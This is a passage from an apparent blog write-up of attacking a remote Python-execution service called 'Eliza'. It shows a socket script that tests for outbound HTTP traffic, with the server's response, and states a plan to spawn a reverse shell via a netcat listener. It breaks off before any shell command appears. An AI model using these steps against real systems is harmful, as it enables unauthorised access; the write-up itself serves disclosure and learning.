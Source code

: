 Okay, now I knew I could start a shell on the remote system, but I
couldn't do much with it... at least for now...

## Is outbound traffic allowed?

Time to check if outbound traffic is allowed. If outbound traffic was
allowed I could write up a Python script which would spawn a reverse
shell for me and grant me access.. Only if outbound traffic is
allowed..

So, I've used this script to verify that outbound HTTP traffic is
allowed.

```python
import socket
  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)         
s.connect(("www.python.org" , 80))
s.sendall(b"GET http://www.python.org HTTP/1.0\n\n")
print(s.recv(4096))
s.close()
```

I've loaded this script in *Eliza* and hit the *run* button. And the
result was:

```html
HTTP/1.1 404 Not found
Server: Varnish
Retry-After: 0
content-type: text/html
Content-Length: 77
Accept-Ranges: bytes
Date: Tue, 04 Mar 2014 18:13:57 GMT
Via: 1.1 varnish
Connection: close


<html>
<head>
<title> </title>
</head>
<body>
unknown domain: </body></html>
```

The result from the script confirmed that outbound HTTP traffic is
allowed, so I was ready to launch my first attack.

## Launching the attack

I've created a listener on my machine on port 80 using netcat which I
would later use for my reverse shell:
